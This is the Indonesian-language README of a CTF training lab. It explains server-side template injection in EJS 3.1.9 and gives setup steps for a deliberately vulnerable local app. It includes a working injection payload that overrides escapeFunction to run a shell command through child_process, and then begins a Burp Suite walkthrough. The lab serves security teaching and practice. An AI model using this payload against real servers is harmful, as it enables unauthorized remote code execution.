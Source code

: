 # 🧪 EJS-SSTI-VULN: Server-Side Template Injection Playground

> CTF Labs | by [ctflabs-id](https://github.com/ctflabs-id)

---

## 🎯 Apa Itu SSTI?

**SSTI (Server-Side Template Injection)** adalah jenis kerentanan di mana user dapat menyisipkan *template code* ke dalam input yang dirender oleh server menggunakan template engine seperti EJS, Jinja2, Twig, dan lainnya.

Dengan memanfaatkan kelemahan ini, attacker dapat:
- Mengeksekusi perintah server-side (`RCE`)
- Membaca environment variabel
- Akses ke file sistem

---

## ⚙️ Cara Kerja EJS SSTI (v3.1.9)

Pada **EJS versi 3.1.9**, jika diset `client=true` dan `escapeFunction` dilewatkan sebagai function injection, maka **arbitrary JS code** bisa dijalankan saat template dirender.

Contoh payload:
```
&settings[view options][client]=true
&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```

---

## 🚀 Instalasi Lab Lokal (only works on linux servers / os / vm, tested on Kali)

```bash
git clone https://github.com/ctflabs-id/EJS-SSTI-VULN
cd EJS-SSTI-VULN
npm install
npm start
```

💡 Jalankan pada terminal pertama ```node app.js```,
Jalankan BurpSuite pada background untuk intercept

## Step-by-Step Eksploitasi

1. Aktifkan BurpSuite Intercept
<img src="./assets/1.png"></img>
